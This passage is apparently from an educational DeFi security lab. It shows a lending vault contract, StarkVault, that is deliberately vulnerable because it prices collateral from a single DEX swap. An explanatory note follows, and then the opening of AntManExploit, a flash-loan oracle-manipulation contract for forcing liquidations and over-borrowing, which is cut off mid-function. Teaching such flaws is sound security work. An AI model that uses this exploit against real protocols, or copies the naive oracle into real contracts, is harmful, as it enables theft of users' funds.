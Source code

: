 ```solidity
    /// @dev Attacker can force liquidation by manipulating price in same tx
    function liquidate(address user) external {
        uint256 price = pym.getPymPrice(address(collateral), address(borrowToken));
        uint256 collateralValue = (collateralBalance[user] * price) / 1e18;
        require(collateralValue * LTV_PERCENT / 100 < debt[user], "not liquidatable");
        uint256 seized = collateralBalance[user];
        collateralBalance[user] = 0;
        require(collateral.transfer(msg.sender, seized), "transfer seized");
    }
}
```
>[!NOTE]
Think of this like a lending pool (similar to Compound or Aave), but with one big mistake: it asks PymDEX for the collateral price every time. If the price is artificially pumped for even one block, StarkVault believes collateral is worth way more than it really is. That lets an attacker either borrow too much or liquidate someone unfairly. This is the core vulnerability. The teaching point: never trust a single swap price - use safer oracles.

---

### `AntManExploit.sol` 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {PymDEX} from "./PymDEX.sol";
import {StarkVault} from "./StarkVault.sol";
import {MockERC20} from "./MockERC20.sol";

/// @title AntManExploit
/// @notice Demonstrates flash-loan + naive oracle manipulation attacks.
/// @dev Educational/demo code only. Not safe for production.
contract AntManExploit {
    PymDEX public pym;
    StarkVault public vault;
    MockERC20 public tokenA;
    MockERC20 public tokenB;
    address payable public owner;

    constructor(address _pym, address _vault, address _tokenA, address _tokenB, address payable _owner) {
        pym = PymDEX(_pym);
        vault = StarkVault(_vault);
        tokenA = MockERC20(_tokenA);
        tokenB = MockERC20(_tokenB);
        owner = _owner;
    }

    /// @notice Execute flash-loan exploit for a given scenario
    /// @param loanAmount Amount of token to borrow in flash-loan
    /// @param wasp Victim address
    /// @param scenario 0 = liquidation, 1 = over-borrow fail, 2 = over-borrow success
    function execute(uint256 loanAmount, address wasp, uint8 scenario) external {
        if (scenario == 0) _scenarioLiquidation(loanAmount, wasp);
        else if (scenario == 1) _scenarioOverBorrowFail(loanAmount, wasp);
        else if (scenario == 2) _scenarioOverBorrowSuccess(loanAmount, wasp);
        else revert("invalid scenario");
    }

    /// @dev Scenario 0: Successful liquidation using flash-loan
    function _scenarioLiquidation(uint256 loanAmount, address wasp) internal {
        tokenA.approve(address(pym), loanAmount);
        pym.swapExactAForB(loanAmount, address(this));
```